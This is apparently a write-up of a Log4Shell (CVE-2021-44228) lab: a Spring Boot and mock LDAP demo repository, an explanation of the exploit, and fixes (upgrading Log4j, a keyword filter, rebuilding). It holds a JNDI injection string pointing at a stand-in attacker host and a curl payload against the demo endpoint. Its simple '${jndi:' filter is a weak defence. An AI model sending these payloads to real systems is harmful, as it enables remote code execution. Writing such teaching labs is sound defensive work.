 # Log4Shell Demonstration: GitHub Repo + Exploit Report

## 1. GitHub Repository Contents

This repository demonstrates the Log4Shell vulnerability using a Spring Boot app and a mock LDAP server. It includes:

### ✅ Files

- **`pom.xml`** – Declares dependencies, initially vulnerable with Log4j 2.14.1.
- **`LogController.java`** – A Spring REST controller that logs user input.
- **`Dockerfile`** – Multi-stage build for building and running the app.
- **`docker-compose.yml`** – Orchestrates the Java app and an OpenLDAP server.
- **`ldap_server.py`** – A Python script to simulate an LDAP callback.
- **`README.md`** – Provides setup, execution, and testing instructions.

### 📂 Directory Layout

```
log4shell-demo/
├── pom.xml
├── Dockerfile
├── docker-compose.yml
├── ldap_server.py
├── README.md
└── src/
    └── main/
        └── java/
            └── com/
                └── example/
                    └── LogController.java
```

---

## 2. Exploit Demonstration & Mitigation Report

### 🧱 Architecture Overview

```
+-------------------------+         +---------------------------+
| Spring Boot App        |         | LDAP Server (ldap_server.py) |
| Log4j 2.14.1           |  <----> | Listens on port 1389       |
| /log endpoint          |         | Receives JNDI callback     |
+-------------------------+         +---------------------------+
```

- The Java app exposes `/log` which logs any user-supplied input.
- If the input includes `${jndi:ldap://...}`, Log4j attempts to resolve it.

---

### 💥 Exploit Explanation

**CVE-2021-44228 (Log4Shell)** allows an attacker to:
1. Send `${jndi:ldap://attacker.com/a}` to a vulnerable app.
2. The app logs this input.
3. Log4j performs a JNDI lookup and reaches out to the attacker’s LDAP server.
4. Remote code execution becomes possible if deserialization is exploited.

**Example Payload:**
```bash
curl -X POST http://localhost:8080/log -d '${jndi:ldap://localhost:1389/a}'
```

---

### 🛡 Mitigation Strategy

#### 1. **Upgrade Log4j**
```xml
<version>2.17.0</version>
```

#### 2. **Input Filtering in LogController**
```java
if (input.contains("${jndi:")) {
    return "Invalid input detected";
}
```

#### 3. **Rebuild and Re-test**
```bash
docker-compose down
docker-compose up --build
```

Malicious inputs should now be blocked and not executed/logged.

---

### ✅ Summary

- Demonstrated a basic Log4Shell attack.
- Captured the callback with a mock LDAP server.
- Upgraded the app and added input validation to mitigate the exploit.

This hands-on exercise reinforces the importance of:
- Staying up-to-date with dependencies
- Validating input
- Monitoring logs for abuse patterns
